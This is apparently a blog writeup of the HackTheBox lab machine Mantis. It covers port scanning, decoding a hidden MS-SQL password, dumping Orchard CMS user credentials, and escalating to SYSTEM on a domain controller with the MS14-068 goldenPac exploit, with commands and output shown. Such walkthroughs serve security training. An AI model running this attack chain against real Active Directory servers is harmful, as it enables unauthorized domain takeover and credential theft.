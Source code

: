 ```yaml
---
layout: post
title:  "HackTheBox - Mantis"
date:   2018-02-24 01:00:00 +0100
categories: [hackthebox]
description: "These are true facts about the Mantis!"
image:
  feature: mantis.jpg
  credit:

---
```

This writeup details attaching the Mantis machine from [HackTheBox](https://www.hackthebox.eu/login).

In short this machine looked indomitable at the start with it's ridiculous list of open ports.  Targeted enumeration, however, reveals that it's not as bad as first expected.  

Chapters:
* [Enumeration](#enumeration)
	*	[MS-SQL Credentials](#ms-sql-credentials)
* [MS14-068](#ms14-068)

Topics:
* MS-SQL Enumeration
* [MS14-068 Active Directory Exploit](https://labs.mwrinfosecurity.com/blog/digging-into-ms14-068-exploitation-and-defence/)

Enumeration
----------------
```
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Microsoft DNS 6.1.7601
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15CD4)
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2017-09-17 13:46:12Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
1337/tcp  open  http         Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2014 12.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: HTB
|   NetBIOS_Domain_Name: HTB
|   NetBIOS_Computer_Name: MANTIS
|   DNS_Domain_Name: htb.local
|   DNS_Computer_Name: mantis.htb.local
|   DNS_Tree_Name: htb.local
|_  Product_Version: 6.1.7601
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2017-09-17T01:35:45
|_Not valid after:  2047-09-17T01:35:45
|_ssl-date: 2017-09-17T13:47:20+00:00; +7s from scanner time.
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc        Microsoft Windows RPC
8080/tcp  open  http         Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Tossed Salad - Blog
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  unknown
49157/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
50255/tcp open  unknown
54393/tcp open  msrpc        Microsoft Windows RPC
54398/tcp open  msrpc        Microsoft Windows RPC
``` 
That is a long list of ports!  We need to see what we can identify about this from the port scan and attack the high value ports first.  

From port 88, the kerberos port we can deduce that this machine is a member of a Windows Active Directory Environment. Port 389, the LDAP service port, confirms this suspicion.  From this information we can make the reasonable assumption that we are attacking a Windows Domain Controller.

The machine is also running web-services on port 1337 and port 8080.  1337 merely shows the default IIS index page, whilst 8080 has a blog powered by Orchard CMS:

![The name is not lost on me.](https://image.ibb.co/g9fAxc/image.png)

Running a dirbuster on both services reveals that a`/secure_notes/` directory exists on port 1337.  Inside we see two files:

![](https://image.ibb.co/e3Tfxc/image.png)

`web.config` isn't actually readable but let's have a look inside `dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt`:
```
1. Download OrchardCMS
2. Download SQL server 2014 Express ,create user "admin",and create orcharddb database
3. Launch IIS and add new website and point to Orchard CMS folder location.
4. Launch browser and navigate to http://localhost:8080
5. Set admin password and configure sQL server connection string.
6. Add blog pages with admin user.
```
So we know there's a database user called admin used to create the orcharddb database, but we're still in need of a password.  Looking at the filename, the last part of the filename looks like it's a base64 encoded string.  We can decode this quite easily:

```python
>>> import base64
>>> base64.b64decode('NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx')
'6d2424716c5f53405f504073735730726421'
```
The result of the decoding is a hex string.  It could be a hash, but to ensure it's not just hex-encoded, we run a quick decode:
```python
>>> '6d2424716c5f53405f504073735730726421'.decode('hex')
'm$$ql_S@_P@ssW0rd!'
```
Well that looks like our MS-SQL password!


### MS-SQL Credentials
For MS-SQL, metasploit has a number of inbuilt modules, but I've found them to be fairly buggy in the past, so working with `sqsh` allows us to manually enumerate with the database. 

The password implies it's for the `sa` user, but connecting with that yields no result.  Connecting with username `admin` however, does.  We use the following:
```bash
sqsh -U admin -S 10.10.10.52
```
As a quick aside, it's worthwhile to check whenever working with an MS-SQL database is the presence of higher privileges.  We can check these manually, but a quick check is to see if you can access `advanced options`.  As we see below, we don't have the necessary permissions:
```
1> exec sp_configure 'show advanced options', 1
2> go
Msg 15247, Level 16, State 1
Server 'MANTIS\SQLEXPRESS', Procedure 'sp_configure', Line 105
User does not have permission to perform this action.
(return status = 1)
```
Enumerating the database, we check the OrchardDB for the presence of any left over user records:
```
1> SELECT Username, Password FROM blog_Orchard_Users_UserPartRecord;
2> go
```
This yields the following user accounts:
``` 
admin:Password1234 
James:J@m3s_P@ssW0rd! 
```

We test both credentials on a number of services, but it turns out he's not even a user within the installed OrchardCMS on port 8080.  Trying it on a number of services, it turns out he's a user on the Windows Machine itself.
```bash
root@kali:~# nmap -sU -sS --script smb-os-discovery.nse -p U:139,T:139 10.10.10.52

Starting Nmap 7.60 ( https://nmap.org ) at 2018-02-23 15:59 EST
Nmap scan report for MANTIS.HTB.LOCAL (10.10.10.52)
Host is up (0.071s latency).

PORT    STATE  SERVICE
139/tcp open   netbios-ssn
139/udp closed netbios-ssn

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2008 R2 Standard 7601 Service Pack 1 (Windows Server 2008 R2 Standard 6.1)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: mantis
|   NetBIOS computer name: MANTIS\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: mantis.htb.local
|_  System time: 2018-02-23T15:59:13-05:00

Nmap done: 1 IP address (1 host up) scanned in 5.61 seconds
```
```
root@kali:/tmp/impacket/examples# smbclient -U James -W HTB  \\\\MANTIS\\NETLOGON
WARNING: The "syslog" option is deprecated
Enter HTB\James's password: 
Try "help" to get a list of possible commands.
smb: \> 
```

MS14-068
------------
In short, the vulnerability targeted the kerberos service, and allowed any user to elevate their permissions from regular user, to domain admin by forging a kerberos ticket.  This is quite a well known exploit and it's always worth checking if interacting with an out of date domain controller if you have a lower privileged user.

The Impacket [goldenPac](https://github.com/CoreSecurity/impacket/blob/master/examples/goldenPac.py) script is about as point-and-click as this attack gets in all honesty.  It handles the more annoying parts such as fetching the SID, and authorizing with the kerberos ticket.  We run it as below and are almost instantly returned a shell:

```
root@kali:/tmp/impacket/examples# python goldenPac.py -dc-ip 10.10.10.52 -target-ip 10.10.10.52 HTB.LOCAL/james@mantis.htb.local
Impacket v0.9.16-dev - Copyright 2002-2018 Core Security Technologies

Password:
[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[-] Couldn't get forest info ([Errno Connection error (htb.local:445)] [Errno -2] Name or service not known), continuing
[*] Attacking domain controller 10.10.10.52
[*] 10.10.10.52 found vulnerable!
[*] Requesting shares on 10.10.10.52.....
[*] Found writable share ADMIN$
[*] Uploading file rFgUlpSB.exe
[*] Opening SVCManager on 10.10.10.52.....
[*] Creating service RKhU on 10.10.10.52.....
[*] Starting service RKhU.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```


References
-----------
https://labs.mwrinfosecurity.com/blog/digging-into-ms14-068-exploitation-and-defence/
https://www.trustedsec.com/2014/12/ms14-068-full-compromise-step-step/
https://blog.rapid7.com/2014/12/25/12-days-of-haxmas-ms14-068-now-in-metasploit/
http://blog.liatsisfotis.com/knock-and-pass-kerberos-exploitation.html
